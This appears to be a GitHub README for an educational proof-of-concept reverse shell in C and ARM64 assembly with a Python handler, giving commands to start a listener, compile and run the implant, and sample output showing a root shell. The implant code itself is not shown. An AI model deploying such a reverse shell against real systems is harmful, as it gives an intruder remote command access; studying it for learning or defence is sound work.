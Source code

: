 ```
  _____                                     _____ _          _ _ 
 |  __ \                                   / ____| |        | | |
 | |__) |_____   _____ _ __ ___  ___ _____| (___ | |__   ___| | |
 |  _  // _ \ \ / / _ \ '__/ __|/ _ \______\___ \| '_ \ / _ \ | |
 | | \ \  __/\ V /  __/ |  \__ \  __/      ____) | | | |  __/ | |
 |_|  \_\___| \_/ \___|_|  |___/\___|     |_____/|_| |_|\___|_|_|

```

A proof-of-concept reverse shell (written in C and ARM64/AARCH64 Assembly) and its handler (written in Python) for learning and educational purpose. The reverse shell is intended for x86 & x64 Linux based systems. However, by [using a cross-compiler](https://jensd.be/1126/linux/cross-compiling-for-arm-or-aarch64-on-debian-or-ubuntu), it can also be repurposed for ARM64/aarch64 Linux systems as well. Also, an ARM64 assembly code template has also been provided.

# Usage
This PoC is made of two components, a handler and the implant/reverse shell code. The implant/reverse shell code is written in C and ARM64/AARCH64 assembly code. This was done to -
- Learn more about reverse shell development, in C and ARM64 Assembly
- Have a reverse shell code that can be turned into shellcode

First, we execute the handler to listen on a particular address and port. The implant is also compatible with netcat
```bash
python3 python-handler.py 127.0.0.1 4444
```
The implant is also compatible with netcat, so it can also be used to manage a reverse shell connection.
```bash
nc -nvlp 127.0.0.1 4444 -s 127.0.0.1
```

Then, we compile the implant/reverse shell C code, and execute it by providing it with handler's listening address and port using the following steps -
```bash
# Compiling As C Code
gcc -o implant implant.c
./implant 127.0.0.1 4444
```

In order to use the ARM64 assembly code, use the following steps -
```bash
# Compiling As ARM64 Assembly Code
git clone https://github.com/pdoffl/Reverse-Shell.git
cd Reverse-Shell/ARM64-Assembly-Code
python3 python-implant_arm64-asmGenerator.py 127.0.0.1 4444
as -o implant_arm64.o implant_arm64.s
ld -o implant_arm64 implant_arm64.o
./implant_arm64
```
The steps above use a python script to embed Handler's IPv4 address and Port in the ARM64 Assembly template, and the final assembly code can be then assembled to create a binary that will connect to the handler and provide a shell when executed.

You'll see the connection on handler's end
```bash
[+] Handler Started On 127.0.0.1:4444
[+] Listening For Connections ...
[+] Connection Received From 127.0.0.1:58902
id
uid=0(root) gid=0(root) groups=0(root)
```

# Features
- Uses multithreaded handler to simultaneously handle receiving output from reverse shell, while sending commands from user
- Implant/reverse shell uses dup2() call to duplicate STDIN, STDOUT, STDERR across the network socket used to communicate with handler

# To Do
- [ ] Refined error handling on handler and implant's end
- [ ] Implement encryption for communication between handler and implant/reverse shell

# References
- https://pymotw.com/2/socket/tcp.html
- https://www.w3schools.com/python/python_try_except.asp
- https://docs.python.org/3/library/socket.html
- https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html
- https://www.idc-online.com/technical_references/pdfs/information_technology/Pairs_in_Python.pdf
- https://www.w3schools.com/python/python_user_input.asp
- https://www.geeksforgeeks.org/python-convert-string-to-bytes/
- https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/
- https://anubissec.github.io/Creating-a-Reverse-Shell/
